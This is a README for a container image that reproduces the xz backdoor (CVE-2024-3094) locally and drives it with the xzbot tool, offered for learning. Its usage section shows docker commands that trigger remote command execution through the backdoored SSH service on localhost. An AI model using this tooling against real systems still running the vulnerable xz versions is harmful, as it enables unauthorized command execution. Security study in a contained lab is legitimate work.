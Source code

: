 # xz backdoor container image

A container image of [xz](https://tukaani.org/xz-backdoor/) backdoor ([CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)) based on an amazing work from [@amlweems](https://github.com/amlweems)'s [xzbot](https://github.com/amlweems/xzbot) project that can be run on both *x86_64* and *Apple Silicon* (via QEMU or rosetta).

> THIS IS FOR LEARNING PURPOSE ONLY!

## Demo
![xz-backdoor demo](.github/demo.gif)

## Getting started

### Prerequisites

* [docker](https://www.docker.com/) or [podman](https://podman.io/docs/installation).
* Read [xzbot](https://github.com/amlweems/xzbot)'s documentation.

### Usage
**1. Start the container image**

> [!IMPORTANT]
> The `--privileged` option is required in order to start `systemd` as PID 1.

```sh
docker run --rm -it -d \
  --privileged \
  --name xz-backdoor \
  --platform linux/amd64 \
  ghcr.io/rezigned/xz-backdoor:latest
```
**2. Run a command via `xzbot`**

> [!NOTE]
> The ourput of the default command (`id`) is redirected to `/tmp/.xz`.
>
> See https://github.com/amlweems/xzbot for more details.

```sh
# default command `id > /tmp/.xz`
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22"

# custom command
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22" -cmd "uname -a > /tmp/.xz"
```

## Acknowledgements
* https://edofic.com/posts/2021-09-12-podman-m1-amd64/
* https://github.com/amlweems/xzbot
* https://www.openwall.com/lists/oss-security/2024/03/29/4
